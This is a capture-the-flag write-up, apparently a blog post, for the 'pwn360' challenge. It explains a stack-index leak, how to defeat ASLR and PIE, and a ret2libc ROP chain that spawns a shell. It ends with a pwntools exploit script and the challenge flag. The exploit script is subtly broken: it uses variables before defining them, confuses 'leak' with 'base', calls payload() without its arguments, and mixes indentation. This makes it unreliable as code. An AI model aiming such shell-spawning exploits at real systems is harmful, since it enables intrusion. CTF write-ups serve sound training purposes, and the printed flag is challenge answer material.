 ```yaml
---
layout: post
date: 2025-07-31 08:56:00 +0300
categories: NCSC-2025 pwn
title: pwn360
tags: 64-bit ROP buffer-overflow leak ret2libc
---
```


## Information
- category: pwn
- points: 1000

## Description
> None

## Write-up
This challenge provides a way to **leak memory** directly from the stack using a controlled index. With this capability, we can bypass both **ASLR** and **PIE** protections. 
### Step 1: Stack Leak to Defeat ASLR 
By using the negative index (e.g., `-3`), we are able to leak a return address from the stack. In our case, the leak shows an address that lies within the `puts` function — specifically something like `puts+0x1fa`. 
This is very useful because if we know the **offset of `puts`** within libc, we can subtract it from the leaked address to compute the **base address of libc**.

### Step 2: Why ret2libc? 
Looking at the binary, we find: 
- PIE and ASLR are enabled. 
- There are **no useful gadgets** (like `pop rdi; ret`) inside the binary. 
- But once we leak libc, we can use **libc ROP gadgets**, including `system()`. 
This makes the **ret2libc technique** the most viable option.

### Step 3: Exploiting ret2libc
After finding the libc base from the `puts` leak, we: 
1. Compute the address of `system()` in libc. 
2. Find the string `"/bin/sh"` (either from libc or push it on the stack). 
3. Find a gadget like `pop rdi; ret` in libc. 
4. Overwrite the return address using the leakable index to set up a ROP chain: `pop rdi; ret → "/bin/sh" → system()` 

### Step 4: Stack Offset 
Using debugging tools like `pwndbg`, we determine that the offset to the return address is `0x58` (88) bytes. This helps in crafting the payload correctly.

## Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn360_patched_patched")
libc = ELF("./libc.so.6")

context.binary = exe
offset_ret = 0x58
offset_puts = (0x1fa - 0x87be0)
def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("cyberwarriors-challenges.skidz.io", 7001)

    return r

def leak(r):
	payload =b"A"*offset_ret
	r.sendline(b"-3")
    r.recvuntil(b"Leaking for you: ")
    leak = int(r.recvline().strip().decode(),16) - offset_puts
    log.success(f"libase: {hex(leak)}.")

    return leak
def payload(r,base):
	libc.address = leak
    rop = ROP(libc)

    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
    ret = rop.find_gadget(['ret'])[0]
    system = libc.sym['system']
    binsh = next(libc.search(b"/bin/sh"))

    payload += p64(ret)
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system)
    return payload

def main():
    r = conn()
    base = leak(r)

    payload = payload()

    r.send(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```
## Flag
> Flag:``` NCSC{p0p1n6_5h3ll5_h4v3_4n07h3r_74573}```





